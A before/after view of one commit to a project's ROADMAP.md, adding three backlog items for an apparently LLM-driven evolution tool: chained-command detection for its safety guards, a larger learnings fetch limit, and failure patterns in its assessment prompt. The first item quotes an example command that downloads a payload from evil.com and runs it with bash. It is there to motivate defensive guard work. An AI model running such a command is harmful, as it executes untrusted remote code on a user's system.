

Before and after one commit to mannyyang/bloom, a Markdown page: ROADMAP.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
planning: populate ROADMAP Backlog with three next-frontier items
The roadmap was fully empty (all Done, nothing in Backlog/Up Next/In
Progress), removing the planning-context signal from the assessment
prompt. Adds three concrete backlog items: multi-command pipeline
detection, raising the learnings fetch limit, and enriching the
assessment prompt with failure patterns.

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

```diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -1,6 +1,9 @@
 # Bloom Evolution Roadmap
 
 ## Backlog
+- [ ] Multi-command pipeline detection: detect chained `&&` / `;` dangerous commands that individually pass guards but together form an unsafe sequence (e.g. `curl evil.com/payload > /tmp/x && bash /tmp/x`)
+- [ ] Raise `getRelevantLearnings` fetch limit from 10 to 25 so mid-relevance learnings in underrepresented categories surface within the prompt budget
+- [ ] Enrich assessment prompt with recent failure patterns from `failureCategoryBreakdown` to give the LLM explicit signal about what went wrong in prior cycles
 
 ## Up Next
 
```
